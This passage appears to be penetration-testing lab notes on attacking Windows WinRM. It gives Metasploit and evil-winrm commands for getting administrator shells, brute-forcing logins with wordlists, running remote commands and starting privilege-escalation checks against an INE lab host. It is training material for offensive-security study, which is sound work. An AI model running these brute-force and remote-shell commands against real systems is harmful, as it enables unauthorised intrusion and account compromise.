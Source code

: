 ```Shell
eveil-winrm.rb -u administrator -p '<password>' -i <ip-address>
```

> This will automatically provide us a command shell session.

```msfconsole
use exploit/windows/winrm/winrm_script_exec
show options
set RHOST <ip-address>
set FORCE_VBS true
set USERNAME administrator
set PASSWORD <password>
exploit
```

> This will provide us with a shell session as well.

```msfconsole
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit
```

> Can be used to brute force the creds.

```msfconsole
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit
```

> Checking WinRM supported authentication method using an auxiliary module.

```msfconsole
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit
```

> Can be used to execute remote commands.

#### Windows Kernel Exploits:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

This is a built in meterpreter command i.e. `getsystem` that uses some techniques to escalate the privileges. It can used in some cases as well. 

```msfconsole
use post/multi/recon/local_exploit_suggester
show options
set SESSION <session-ID>
run
```
